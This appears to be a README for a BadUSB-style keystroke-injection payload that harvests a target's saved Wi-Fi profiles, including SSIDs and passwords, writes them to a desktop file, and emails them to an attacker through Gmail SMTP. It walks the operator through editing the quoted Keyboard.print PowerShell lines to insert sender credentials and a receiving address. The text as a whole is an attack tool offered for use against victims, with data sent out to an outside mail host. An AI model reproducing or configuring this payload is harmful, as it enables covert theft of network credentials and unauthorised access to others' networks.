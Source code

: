 This payload Steals a targets Wifi profile. I.E. SSID, Passowrd and Authentication type.

Saves the profile to a text file named "Profile.txt" on the targets desktop.

Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.

You must Edit the script to include a sender Gamils account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line 

<i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_GMAIL_PASSWORD')");</b></i> 

Here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i></b> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <i><b>CHANGE_THIS_TO_GMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text feild labeled
<i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code can be found on line 113 and looks like this: 

<i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i>

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .





